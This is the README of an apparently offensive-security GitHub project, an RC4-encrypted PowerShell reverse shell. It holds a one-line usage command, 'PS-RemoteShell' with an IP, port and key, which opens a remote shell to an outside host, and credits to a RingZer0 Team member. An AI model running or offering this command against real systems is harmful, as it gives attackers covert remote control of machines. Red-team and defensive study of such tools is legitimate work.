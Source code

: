 # RC4-PowerShell-IEX
Small powershell reverse shell using RC4 encryption

# Usage
```
PS-RemoteShell -ip 1.1.1.1 -port 1111 -key 1111
```

#Credit 
Mr.Un1k0d3r RingZer0 Team

https://ringzer0team.com
